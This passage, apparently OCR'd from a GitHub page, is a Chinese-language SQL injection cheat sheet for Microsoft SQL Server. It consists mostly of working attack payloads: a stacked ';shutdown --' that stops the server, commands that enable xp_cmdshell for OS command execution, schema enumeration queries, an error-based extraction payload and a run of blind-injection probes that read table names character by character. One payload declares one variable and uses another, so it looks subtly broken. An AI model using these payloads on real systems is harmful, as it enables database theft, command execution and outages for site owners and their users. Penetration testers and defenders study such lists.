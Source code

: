 ##### 关掉 SQL Server (S)

当你真的要关闭时使用：`';shutdown --`

#### 开启 xp_cmdshell 在 SQL Server 2005 中

> EXEC sp_configure 'show advanced options',1 RECONFIGURE
>
> EXEC sp_configure 'xp_cmdshell',1 RECONFIGURE

#### 查询 SQL Server 的数据库结构(S) 

##### 获取用户定义的表

> SELECT name FROM sysobjects WHERE xtype = 'U'

##### 获取列名

> SELECT name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'tablenameforcolumnnames')

#### 判断记录 (S)

- 在 where 条件中使用 **NOT IN** 或 **NOT EXIST**, `... WHERE users NOT IN ('First User', 'Second User')` `SELECT TOP 1 name FROM members WHERE NOT EXIST(SELECT TOP 0 name FROM members)` *
- 复杂的技巧 `SELECT * FROM Product WHERE ID=2 AND 1=CAST((Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE i.id<=o.id) AS x, name from sysobjects o) as p where p.x=3) as int` `Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE xtype='U' and i.id<=o.id) AS x, name from sysobjects o WHERE o.xtype = 'U') as p where p.x=21`

#### 基于 MSSQL 的报错注入快速提取数据的技巧 (S)

> ';BEGIN DECLARE @rt varchar(8000) SET @rd=':' SELECT @rd=@rd+' '+name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'MEMBERS') AND name>@rd SELECT @rd AS rd into TMP_SYS_TMP end;--

#### SQL 盲注

通过页面的显示状态来判断 SQL 语句的执行结果是 TRUE 还是 FLASE 来获取数据库中的数据

**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78-- 

**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>103-- 

**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)<103-- 

**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>89-- 

**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)<89-- 
